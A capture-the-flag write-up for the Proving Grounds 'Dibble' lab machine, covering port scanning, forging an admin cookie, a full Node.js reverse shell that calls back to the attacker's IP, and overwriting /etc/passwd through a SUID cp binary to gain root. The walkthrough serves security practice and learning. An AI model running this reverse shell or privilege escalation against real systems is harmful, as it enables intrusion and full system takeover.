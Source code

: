 ```yaml
---
title: "Proving grounds Practice: Dibble"
layout: post
date: 2024-02-08 02:00
categories: writeup
---
```


Proving grounds Practice - Dibble CTF writeup.

# NMAP

```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))
3000/tcp  open  http    Node.js (Express middleware)
27017/tcp open  mongodb MongoDB 4.2.9
```

## 21/tcp    open  ftp     vsftpd 3.0.3
- [x] anonymous login 

## 80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))

File and Directory discovery
- http://192.168.213.110/
- http://192.168.213.110/web.config

## 3000/tcp  open  http    Node.js (Express middleware)

- Register a user.
- Change cookie from default to admin.
- Base64 encode the value and then url encode it.`userLevel=YWRtaW4%3D`
- Refresh the page.
- Add new event log.

#### node js reverse shell

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.45.232", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

## Initial Foothold

```sh
naveenj@hackerspace:[09:37]~/proving_grounds/Dibble$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.110] 37530
id
uid=1000(benjamin) gid=1000(benjamin) groups=1000(benjamin)
ls -al
```

## Privilege Escalation

### Exfiltrated Information

```sh
 *   'database' => 'databasename',
 *   'username' => 'sqlusername',
 *   'password' => 'sqlpassword',
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
```

## SUID

```sh
-rwsr-xr-x. 1 root root 156K Apr 23  2020 /usr/bin/cp
```

### SUID Exploitation

- Read /etc/passwd and paste the contents in a file in the local machine.
- Add new sudo user entry to the file.
- Download the updated file to the attacking machine.
- Use `cp` to copy the updated file content to `/etc/passwd`.
- Switch to the new user which we created using the password.

```sh
[benjamin@dibble tmp]$ cp passwd /etc/passwd
cp passwd /etc/passwd
[benjamin@dibble tmp]$ su hacker
su hacker
Password: mypass

[root@dibble tmp]# cd /root
```

**Root Obtained**

### Reference

- https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).